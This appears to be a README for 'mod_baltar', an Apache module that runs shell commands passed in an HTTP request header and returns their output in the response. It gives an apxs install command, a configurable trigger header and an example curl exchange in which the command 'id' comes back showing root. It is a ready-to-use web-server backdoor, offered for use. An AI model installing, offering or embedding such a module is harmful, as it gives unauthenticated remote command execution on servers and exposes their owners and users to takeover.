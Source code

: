 # mod_baltar

## Compile & install

```
apxs -i -a -c mod_baltar.c
```

## Configuration

* BaltarHeader: Set baltar's header (default: SSH)

## Example

```
# curl -I localhost -H 'SSH: id'
HTTP/1.1 200 OK
Date: Sun, 28 Oct 2018 16:13:50 GMT
Server: Apache/2.4.18 (Ubuntu)
CMD-1: uid=0(root) gid=0(root) groups=0(root)
SSHout: id
Last-Modified: Wed, 29 Mar 2017 21:11:19 GMT
ETag: "43-54be5048b2a4e"
Accept-Ranges: bytes
Content-Length: 67
Content-Type: text/html
```
